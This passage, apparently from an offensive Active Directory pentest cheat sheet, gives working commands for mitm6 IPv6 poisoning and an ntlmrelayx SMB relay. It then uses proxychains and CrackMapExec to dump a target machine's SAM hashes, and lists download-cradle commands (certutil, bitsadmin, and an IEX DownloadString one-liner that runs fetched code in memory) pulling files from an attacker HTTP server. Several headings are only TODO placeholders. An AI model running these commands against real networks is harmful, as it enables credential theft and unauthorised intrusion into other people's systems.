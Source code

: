 ```bash
mitm6 -d domain.local
```

```bash
ntlmrelayx.py -6 -wh 10.10.10.10 -t smb://10.10.10.1 -socks -debug -smb2support
```

This will open an interactive session of the `ntlmrelayx.py` tool. We will use the `socks` command to list the available `relays`. If the user tries to access to a shared resource that is not available, a new `relay` will appear. If we have `AdminStatus` to `True`, it means that we have received the authentication of an `Administrator`user. In the `/etc/proxychains.conf` file we will add `socks4 127.0.0.1 1080` in the end.  

Then we will use `CrackMapExec` to connect to the machine (Password can be anything):

```bash
proxychains cme smb 10.10.10.1 -u 'user' -p 'randompass' -d domain
```

We can use the following command to dump the `SAM` of the target machine:

```bash
proxychains cme smb 10.10.10.1 -u 'user' -p 'randompass' -d domain --sam
```

### Attacking via Sensitive Groups to Become Domain Administrator

TODO

### Exploiting ACLs in AD

TODO

## PowerShell and In-Memory Executions

### Understanding the Basics of PowerShell cmdlets

TODO

### File Transfer

#### HTTP

First, we will need to create an `HTTP` server that contains the files that we want to download in the target machine, to do this we will use the `python3 -m http.server` command.

#### Powershell

To download the files hosted in the `HTTP` from `Powershell`,  we can use any of this commands:

```powershell
Certutil.exe -f -split -urlcache http://10.10.10.2:8000/file file

bitsadmin /transfer job http://10.10.10.2:8000/file file

curl http://10.10.10.2:8000/file -o file

IEX(New-Object Net.WebClient).downloadString('http://10.10.10.2:8000/file')

iwr -Uri http://10.10.10.2:8000/file -OutFile file

wget http://10.10.10.2:8000/file -OutFile file
```
